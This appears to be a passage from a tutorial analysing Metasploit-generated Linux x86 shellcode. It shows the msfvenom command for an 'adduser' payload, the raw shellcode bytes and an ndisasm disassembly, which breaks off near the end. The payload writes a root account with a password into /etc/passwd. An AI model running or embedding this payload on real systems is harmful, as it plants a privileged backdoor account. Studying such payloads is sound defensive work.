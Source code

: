 
``` c
msfvenom -p linux/x86/adduser USER=user1 PASS=password123 -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 92 bytes
Final size of c file: 413 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73"
"\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46"
"\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f"
"\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58"
"\xcd\x80";
```
First we can have a look on the assembly instructions and see the executed calls. For this we can use:
``` bash
Echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u- -
```
Then we cann see all the assembly instructions for this shellcode:
``` assembly
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E823000000        call 0x4e
0000002B  7573              jnz 0xa0
0000002D  657231            gs jc 0x61
00000030  3A417A            cmp al,[ecx+0x7a]
00000033  53                push ebx
00000034  7A42              jpe 0x78
00000036  327579            xor dh,[ebp+0x79]
00000039  384A46            cmp [edx+0x46],cl
0000003C  6C                insb
0000003D  6B3A30            imul edi,[edx],byte +0x30
00000040  3A30              cmp dh,[eax]
00000042  3A3A              cmp bh,[edx]
00000044  2F                das
00000045  3A2F              cmp ch,[edi]
00000047  62696E            bound ebp,[ecx+0x6e]
0000004A  2F                das
0000004B  7368              jnc 0xb5
0000004D  0A598B            or bl,[ecx-0x75]
00000050  51                push ecx
00000051  FC                cld
00000052  6A04              push byte +0x4
00000054  58                pop eax
```